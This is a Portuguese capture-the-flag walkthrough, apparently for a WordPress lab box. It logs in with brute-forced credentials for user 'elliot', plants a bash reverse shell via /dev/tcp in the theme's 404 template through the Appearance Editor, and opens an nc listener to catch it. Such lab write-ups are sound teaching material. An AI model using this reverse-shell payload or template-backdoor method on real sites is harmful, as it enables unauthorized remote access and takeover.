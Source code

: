 - Agora vamos entrar no wordpress

> [80][http-post-form] host: 10.10.156.254 login: elliot password: ER28-0652
> 

![Untitled](Untitled%2015.png)

- Aqui vamos editar algum arquivo onde podemos colocar algum shell ou shell reverso
- Procurando no site, na categoria `Appearence` → `Editor`
- Temos o `404 Template`, vamos editar ele e adicionar
    
    ```bash
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<yourIP>/<yourPORT> 0>&1'");
    ```
    
- Com isso vamos abrir nossa porta de acordo com a porta que colocamos
- No meu caso
    
    ```bash
    sudo nc -nvlp 777 -s 10.8.154.250
    ```
    
    | -s | seu ip |
    | --- | --- |
- Entao vamos enviar o arquivo modificado
- E como eh uma pagina de error, vamos simplesmente entrar em qualquer url para entrar na pagina de 404, ou simplesmente entrar nela
    